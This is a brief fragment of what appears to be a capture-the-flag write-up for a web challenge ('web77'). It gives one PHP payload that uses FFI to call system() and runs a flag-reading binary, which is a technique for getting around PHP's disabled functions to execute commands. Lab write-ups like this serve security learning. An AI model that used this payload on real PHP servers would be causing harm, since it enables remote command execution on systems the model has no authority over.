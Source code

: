 ![web77_ls](./image/web77_ls.png)
payload
```
c=$ffi = FFI::cdef("int system(const char *command);");$a='/readflag > 2.txt';$ffi->system($a);
```
![web77_flag](./image/web77_flag.png)
